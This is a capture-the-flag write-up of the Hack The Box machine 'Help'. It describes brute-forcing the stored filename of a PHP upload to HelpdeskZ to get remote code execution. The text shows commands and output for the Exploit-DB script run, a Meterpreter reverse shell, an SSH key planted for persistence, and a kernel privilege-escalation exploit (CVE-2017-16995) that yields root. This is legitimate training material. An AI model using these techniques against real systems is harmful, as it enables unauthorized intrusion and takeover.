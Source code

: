 ```yaml
---
title: Help - Hack The Box
excerpt: "Help showed that a small programming mistake in a web application can introduce a critical security vulnerability. In this case, the PHP application errors out when uploading invalid extensions such as PHP files but it doesn't delete the file. Combined with a predictable filename generated based on MD5 of original file + epoch, we can get RCE."
date: 2019-06-08
classes: wide
image: /assets/images/htb-writeup-help/help_logo.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - php  
  - apache
  - kernel exploit
  - helpdeskz
---
```



Help showed that a small programming mistake in a web application can introduce a critical security vulnerability. In this case, the PHP application errors out when uploading invalid extensions such as PHP files but it doesn't delete the file. Combined with a predictable filename generated based on MD5 of original file + epoch, we can get RCE.

## Summary

- The HelpdeskZ PHP application allows .php file uploads to be stored even though there is an error message saying an invalid file has been uploaded. The PHP code doesn't clean up the invalid file that has been uploaded.
- We can't simply execute the uploaded file because the filename stored is obfuscated with the MD5 of the original file + the epoch timestamp. We can bruteforce those with an exploit already available.
- After getting a shell through RCE using the uploaded file, we execute a kernel exploit for CVE 2017-16995 and gain root access.

## Blog / Tools used

- [HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download](https://www.exploit-db.com/exploits/41200)
- [Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation](https://www.exploit-db.com/exploits/44298)

### Portscan

Not much running on there, it's a Linux box with few services running:

```
root@ragingunicorn:~# nmap -p- -sC -sV 10.10.10.121
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-19 19:02 EST
Nmap scan report for help.htb (10.10.10.121)
Host is up (0.030s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web enumeration Node.js

![](/assets/images/htb-writeup-help/5.png)

There's some kind of Node.js application with graphql running on port 3000 but there's not much we can do with it.

Fails:
- Tried enumerating ednpoints with wfuzz, didn't find anything
- Once I had access to the server later on I was able to find the `graphql` endpoint but couldn't anything special with it other then querying user information which I already access to locally. The username/password shown here was not used anywhere on the box, just a distraction.

### Web enumeration Apache

The main page shows the default Ubuntu Apache page:

![](/assets/images/htb-writeup-help/1.png)

Next, when we run `gobuster` we find the `/support` URI:

```
# gobuster -w /usr/share/seclists/Discovery/Web-Content/big.txt -q -t 50 -u http://help.htb
/javascript (Status: 301)
/server-status (Status: 403)
/support (Status: 301)
```

This points to the **HelpdeskZ** application running on the server.

![](/assets/images/htb-writeup-help/2.png)

![](/assets/images/htb-writeup-help/3.png)

There's nothing in the Knowledge Base or News section, and we can't log in because we don't have credentials.

A quick search on Exploit-DB shows there's a vulnerability related to file uploads:

```
root@ragingunicorn:~# searchsploit helpdeskz
------------------------------------------------
 Exploit Title  |  Path  | (/usr/share/exploitdb/)
------------------------------------------------
HelpDeskZ 1.0.2 - Arbitrary File | exploits/php/webapps/40300.py
HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File | exploits/php/webapps/41200.py
------------------------------------------------
Shellcodes: No Result
```

Exploit: `https://www.exploit-db.com/exploits/40300`

Basically, when we upload an attachment in a support ticket, the filename is obfuscated by doing an MD5 checksum of the filename concatenated with the epoch time. Because the code uses an integer for the epoch time (instead of a float), we can bruteforce the values by computing the MD5 value of every filename/time combination from the past few minutes and issue a GET request to the server to find if the filename is correct.

Looking the HelpdeskZ code, we can see that the upload folder is `/support/uploads/tickets/`, this will need to be passed to the exploit script to bruteforce the correct path.

![](/assets/images/htb-writeup-help/6.png)

![](/assets/images/htb-writeup-help/7.png)

We also need to make sure that the time on our computer is set to same time as the server, or close enough so the script will be able to cycle through the epoch time that matches the upload timestamp.

```
# date && curl -v --head http://help.htb/
Sun Jan 20 09:33:00 EST 2019
*   Trying 10.10.10.121...
* TCP_NODELAY set
* Connected to help.htb (10.10.10.121) port 80 (#0)
> HEAD / HTTP/1.1
> Host: help.htb
> User-Agent: curl/7.62.0
> Accept: */*
> 
< HTTP/1.1 200 OK
HTTP/1.1 200 OK
< Date: Sun, 20 Jan 2019 14:32:37 GMT
Date: Sun, 20 Jan 2019 14:32:37 GMT
```

For the reverse shell, we can can use a simple `php/meterpreter/reverse_tcp` shell and attach it to a support ticket:

![](/assets/images/htb-writeup-help/8.png)

![](/assets/images/htb-writeup-help/9.png)

It seems that some extensions are blacklisted or whitelisted on the server. But if we look at the source code on Github, we notice that even when we get an error message, there is no code that deletes the invalid file. The file is still saved on the server even if we get an error message.

![](/assets/images/htb-writeup-help/10.png)

To run the exploit, we just give it the upload location and the filename we uploaded:
```
# ./40300.py http://help.htb/support/uploads/tickets/ cmd.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
```

Once the script hits the right filename, the payload is triggered and we get a shell:
```
msf5 exploit(multi/handler) >
[*] Sending encoded stage (51106 bytes) to 10.10.10.121
[*] Meterpreter session 1 opened (10.10.14.23:5555 -> 10.10.10.121:35166) at 2019-01-20 09:35:45 -0500
```

Now we can grab the flag and write our SSH key to the user folder so we can log in by SSH after:
```
meterpreter > shell
Process 17138 created.
Channel 0 created.
cd /home/help
cat user.txt
bb8a7b....
mkdir .ssh
echo "ssh-rsa AAAAB3NzaC1y[...]hscPOtelvd root@ragingunicorn" >> .ssh/authorized_keys
```

### Privesc

Since this is a low point box, the priv esc is probably something simple such as kernel exploit.

We get a bunch of results when we run the [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)

```
[...]
[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Tags: debian=9,fedora=25|26|27,[ ubuntu=14.04|16.04|17.04 ]
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1
[...]
```

We can exploit CVE 2017-16995 to gain root access. According to the CVE's description:

> The check_alu_op function in kernel/bpf/verifier.c in the Linux kernel through 4.14.8 allows local users to cause a denial of service (memory corruption) or possibly have unspecified other impact by leveraging incorrect sign extension.

Exploiting it was easy:

```
help@help:~$ cd /dev/shm
help@help:/dev/shm$ vi exp.c
help@help:/dev/shm$ gcc -o exp exp.c
help@help:/dev/shm$ ./exp
task_struct = ffff880039afd400
uidptr = ffff880036b75b04
spawning root shell
root@help:/dev/shm# cat /root/root.txt
b7fe60...
```
